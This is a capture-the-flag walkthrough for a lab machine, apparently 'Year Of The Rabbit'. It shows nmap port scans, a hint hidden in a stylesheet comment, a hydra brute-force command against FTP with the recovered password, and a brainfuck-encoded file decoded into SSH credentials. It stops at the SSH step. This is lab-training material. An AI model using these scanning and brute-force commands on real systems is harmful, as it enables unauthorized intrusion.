





# Year Of The Rabbit

## Recon

### Nmap - Ports
``nmap -sS -p- -Pn <IP>``
PORT   STATE SERVICE<br>
21/tcp open  ftp<br>
22/tcp open  ssh<br>
80/tcp open  http<br>

``nmap -Pn -sS -sV -sC -p "21,22,80" -oA .\recon\nmap\ <IP>``


### Fuzzing


### Acessing http://*IP*/assets/


### CSS:
```CSS
[...]
    font-family: Verdana, sans-serif;
    font-size: 11pt;
    text-align: center;
  }
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
  div.main_page {
    position: relative;
    display: table;
[...]
```

### sup3r_s3cr3t_fl4g.php


Analyse redirects in network console we view that a hidden directory is called. Let's follow.



### Follow hidden directory
[image](./recon/hidden_index.png)
```bash
cat ./recon/Hot_Babe.png
```

In end of content file has the user and possibles passwords for FTP.

## Exploit
### Brute Force
```bash
hydra -l ftpuser -P ./exploit/passwords.txt ftp://10.10.101.17:21

[21][ftp]
host: 10.10.143.47
login: ftpuser
password: 5iez1wGXKfPKQ
```
#### FTP

#### Getting File
```brainfuck
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
[Online Decoder](https://www.dcode.fr/brainfuck-language)
#### Output
```
User: eli
Password: DSpDiM1wAEwid
Memory:
[1] = d (100)
```

### Connect in SSH
